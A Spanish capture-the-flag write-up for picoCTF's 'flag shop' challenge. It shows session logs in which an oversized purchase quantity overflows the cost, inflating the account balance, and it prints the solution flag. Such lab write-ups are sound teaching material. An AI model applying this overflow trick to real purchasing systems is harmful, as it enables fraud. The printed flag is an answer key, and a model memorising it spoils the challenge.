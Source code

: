 ## Reto: flag shop
### Descripción
Hay una tienda de banderas vendiendo cosas, ¿puedes comprar una bandera? [Fuente](https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c). Conectar con `nc jupiter.challenges.picoctf.org 4906`.
### Solución
Iniciamos descargando el archivo fuente de la tienda de banderas con ayuda del comando **wget**:
```shell
wget https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c
```

Una vez descargado, procedemos a conectarnos al servidor proporcionado por la descripción, donde como se aprecia al establecer conexión nos aparece un menú con opciones a elegir:
```shell
nc jupiter.challenges.picoctf.org 4906
```

Nos aparece lo siguiente:
```q
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

Debido a que desconocemos si poseemos recursos, procedemos a revisar el balance de la cuenta:
```q
 Enter a menu selection
1



 Balance: 1100
```

Una vez que sabemos que contamos con recursos, procedemos a revisar la compra de banderas, iniciando por la primera opción, donde se realiza la compra, pero como decía en el encabezado, al final de cuentas no compramos nada en realidad, solo nos disminuyó el dinero de nuestra cuenta:
```q
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
1

The final cost is: 900

Your current balance after transaction: 200

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

Entonces se procede a verificar la segunda opción de compra, resultando en que 1337 banderas cuestan 100000 dólares, pero al no contar con dicha cantidad, se ingresa un número negativo:
```shell
Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
-1002020202
```

Dicho movimiento no nos resultó como esperábamos, ya que cerró la tienda y volvimos a prompt original:

```shell
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1
```

No es hasta después de muchos intentos, se descubrió por accidente la forma de poder agregar fondos a nuestra cuenta, agregando en total 651691084 dólares:

```shell
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
100000000000000000

The final cost is: -651689984

Your current balance after transaction: 651691084

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

Por lo que ahora si disponemos del suficiente dinero para comprar las 1337 banderas, opción que procedemos a ejecutar:

```shell
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one 1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
Welcome to the flag exchange
We sell flags
```

Como podemos ver la compra fue exitosa, dado que nos arrojó la bandera que necesitamos para resolver este reto:

```
picoCTF{m0n3y_bag5_9c5fac9b}
```

### Notas adicionales
### Referencias

 
